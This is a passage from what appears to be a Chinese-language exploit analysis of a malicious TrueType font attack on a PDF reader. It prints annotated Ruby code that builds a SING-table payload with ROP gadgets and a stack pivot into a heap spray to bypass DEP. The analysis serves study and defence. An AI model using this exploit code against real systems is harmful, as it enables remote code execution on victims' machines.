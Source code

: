 查看基础文件的 0xec 与 0x11c 处，发现这两处其实是基础文件的 name 表。make_ttf 函数的实际工作流程就是把基础文件的 NAME 表 tag 改为了 SING，并用包含了 Payload 的 sing 字符串的内容替换了基础文件的 NAME 表内容。查看导出的 TTF 文件能够发现该文件中不存在 NAME 表，与上述结论相符合。接下来让我们仔细审计 uniqueName 字段中填入的 payload

```ruby
        # 0xffffffff gets written here @ 0x7001400 (in BIB.dll)
        sing[0x140, 4] = [0x4a8a08e2 - 0x1c].pack('V')

        #* 第一个 ROP Gadget 位于 icucnv36.dll 中的 0x4A80CB38 处
        #* gadget 内容是
        #* add ebp, 0x794 ;此时 ebp 的值会被调整到 strcat 函数调用后的栈区
        #* leave
        #* ret ; 执行第二条 gadget
        # This becomes our new EIP (puts esp to stack buffer)
        ret = 0x4a80cb38 # add ebp, 0x794 / leave / ret
        sing[0x208, 4] = [ret].pack('V')

        #* 第二个 ROP Gadget 位于 icucnv36.dll 中的 0x4A82A714 处
        #* gadget 内容为
        #* pop esp ; 使下方 ruby 代码填入的值成为 esp
        #* ret
        # This becomes the new eip after the first return
        ret = 0x4a82a714
        sing[0x18, 4] = [ret].pack('V')

        # This becomes the new esp after the first return
        esp = 0x0c0c0c0c
        sing[0x1c, 4] = [esp].pack('V')

        #* 参考链接 2010.09.09 - VUPEN 的文章给出了这个数据的作用
        # Without the following, sub_801ba57 returns 0.
        sing[0x24c, 4] = [0x6c].pack('V')
```

以上代码设置了一条 ROP 链，用于劫持执行流到 Heap Spray 的用于绕过 DEP 的 payload 处，如下图所示（图来自 [Sp4n9x 的博客](#reference)）

